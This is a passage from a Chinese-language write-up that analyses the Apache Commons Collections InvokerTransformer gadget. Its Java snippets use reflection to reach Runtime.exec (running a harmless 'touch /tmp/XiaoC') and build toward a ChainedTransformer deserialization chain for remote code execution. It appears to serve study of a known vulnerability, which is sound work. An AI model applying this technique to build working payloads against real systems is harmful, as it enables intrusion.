 ### InvokerTransformer#transform
![-w536](media/15923231349853/15923295830195.jpg)
反射调用，Class由参数控制，Method以及调用参数由3个类的属性控制。3个属性的值在第2个（按照代码中的declare顺序）构造函数中可控
![-w665](media/15923231349853/15923298696002.jpg)
这里很直观地能想到反射调用执行exec，但是需要满足这里的格式。正常通过反射 rce 的代码大概是下面这样：
```java
public static void testRuntime() throws Exception {
    Class cls = Class.forName("java.lang.Runtime");
    Method method = cls.getMethod("getRuntime");
    Runtime tmpRuntime = (Runtime)method.invoke(null, null);
    tmpRuntime.exec("touch /tmp/XiaoC");
}
```
这段代码在获取`java.lang.Runtime`的Class实例后，有3次method invocation，依次是`Class#getMethod`、`Runtime#invoke`和`Runtime#exec`。

我写了下面代码测试看能否执行`Method method = cls.getMethod("getRuntime");`
getMethod定义
```java
public Method getMethod(String name,
                        Class<?>... parameterTypes)
                 throws NoSuchMethodException,
                        SecurityException
```
第2个参数用不到，用空数组代替。
```java
public static void testInvokerTransformer() throws Exception {
    Class cls = Runtime.class;
    String methodName = "getMethod";
    Class[] paramTypes = new Class[]{String.class, Class[].class};
    Object[] args = new Object[]{"getRuntime", new Class[0]};
    InvokerTransformer invokerTransformer = new InvokerTransformer(methodName, paramTypes, args);
    invokerTransformer.transform(cls);
}
```
这样执行起来没有问题。但是前面说了，`Runtime.exec`需要3次 method invocation ，这里只有一次，除非能找到一个反复调用`InvokerTransformer#transform`的地方，并且还需要把结果和传入参数串起来，这就引入了`ChainedTransformer`。
